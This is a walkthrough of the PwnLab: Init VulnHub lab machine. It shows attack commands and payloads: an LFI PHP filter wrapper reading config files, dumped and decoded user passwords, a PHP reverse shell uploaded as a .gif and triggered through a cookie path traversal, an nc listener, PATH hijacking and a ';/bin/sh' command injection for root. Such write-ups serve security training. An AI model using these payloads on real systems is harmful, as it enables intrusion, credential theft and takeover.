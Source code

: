 PwnLab: Init Walkthrough
Overview

This walkthrough details the exploitation process of the PwnLab: Init vulnerable machine from VulnHub. The machine involves multiple vulnerabilities including LFI, insecure file uploads, and privilege escalation misconfigurations.
Reconnaissance
Nmap Scan
bash

nmap <ip>

Discovered open ports with port 80 being particularly interesting.
Web Enumeration
LFI Vulnerability

Found /config.php directory through directory enumeration.

Exploited Local File Inclusion (LFI) using PHP wrappers:
text

http://192.168.1.46/index.php?page=php://filter/convert.base64-encode/resource=config

Retrieved base64-encoded credentials from the configuration file.
Database Access
MySQL Connection Attempt
bash

mysql -h 192.168.1.46 -u root -p

Received SSL error: ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it
Bypassing SSL Requirement
bash

mysql -h 192.168.1.46 -u root -p --skip-ssl

Extracting User Credentials
sql

MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+

Decoded credentials:

    kent:JWzXuBJJNy

    mike:SIfdsTEn6I

    kane:iSv5Ym2GRo

Web Application Access

Logged into the web application using discovered credentials.
File Upload Bypass

Uploaded PHP reverse shell disguised as GIF:

    Filename: phpreverseshell.php.gif

LFI to RCE

Used LFI to read index.php source code:
text

http://192.168.1.46/?page=php://filter/convert.base64-encode/resource=index

Discovered include() function vulnerability allowing file inclusion and execution.
Reverse Shell
Setup Listener
bash

nc -nlvp <listening_port>

Trigger Reverse Shell

Modified cookie to execute uploaded file:
text

lang=../upload/imagefile.gif

Successfully obtained reverse shell connection.
Privilege Escalation
User Enumeration

    Switched to user kent: su kent (limited access)

    Attempted to switch to user mike: Permission denied

    Successfully switched to user kane: su kane

Found Interesting File

Discovered executable msgmike in kane's directory.
PATH Manipulation

Created malicious cat executable in /tmp:
bash

cd /tmp
echo /bin/bash > cat
chmod 777 cat
export PATH=/tmp:$PATH
cd
./msgmike

Successfully escalated to user mike.
Root Escalation

Found another executable msg2root in mike's directory.

Exploited command injection:
bash

./msg2root
# When prompted for input:
hi ; /bin/sh

Successfully obtained root shell.
Key Vulnerabilities Exploited

    Local File Inclusion (LFI) with PHP wrappers

    Insecure file upload with extension bypass

    MySQL authentication without SSL requirement

    Weak credential storage (base64 encoding)

    PATH environment variable manipulation

    Command injection in SUID binary
